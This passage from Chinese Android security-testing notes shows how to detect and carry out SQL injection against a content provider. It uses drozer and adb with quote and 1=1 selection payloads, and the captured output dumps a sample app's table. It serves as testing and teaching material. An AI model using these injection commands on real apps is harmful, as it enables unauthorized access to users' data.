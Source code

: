            - query(String table, String[] columns, String selection, String[] selectionArgs, String groupBy, String having, String orderBy, String limit)
            - query(String table, String[] columns, String selection, String[] selectionArgs, String groupBy, String having, String orderBy)

#### 8.3.2、drozer 动态检测
run scanner.provider.injection -a packageName   
- 验证应用脆弱性
    ```terminal
    dz> run scanner.provider.injection -a com.example.tom.forbroadcast
    Scanning com.example.tom.forbroadcast...
    Not Vulnerable:
    content://com.example.tom.forbroadcast.com.android.tools.fd.runtime.InstantRunContentProvider
    content://com.example.tom.forbroadcast.com.android.tools.fd.runtime.InstantRunContentProvider/

    Injection in Projection:
    No vulnerabilities found.

    Injection in Selection:
    content://testin.cn/
    content://authorities
    content://testin.cn
    content://authorities/
    ```

Injection in Projection:    
Injection in Selection:     
- 上述两个语句之后如果为 `No vulnerabilities found.` 即无风险，否则有风险。

##### 8.3.2.1、drozer 完成注入动作
```terminal
dz> run app.provider.query content://testin.cn/ --selection  "'"
unrecognized token: "';" (code 1): , while compiling: SELECT * FROM restaurants WHERE ';

dz> run app.provider.query content://testin.cn/ --selection 1=1
| _id | name | address | type | notes | phone |
| 1   | 1    | 1       | 1    | 1     | 1     |
| 2   | 2    | 2       | 2    | 2     | 2     |
| 3   | 3    | 3       | 3    | 3     | 3     |
| 4   | 4    | 4       | 4    | 4     | 4     |
```

#### 8.3.3、adb 完成注入动作
```terminal
C:\Users\Tom>adb shell content query --uri content://testin.cn/ --where "'"
/system/bin/sh: no closing quote

C:\Users\Tom>adb shell content query --uri content://testin.cn/ --where "1=1"
Row: 0 _id=1, name=1, address=1, type=1, notes=1, phone=1
Row: 1 _id=2, name=2, address=2, type=2, notes=2, phone=2
Row: 2 _id=3, name=3, address=3, type=3, notes=3, phone=3
Row: 3 _id=4, name=4, address=4, type=4, notes=4, phone=4
```
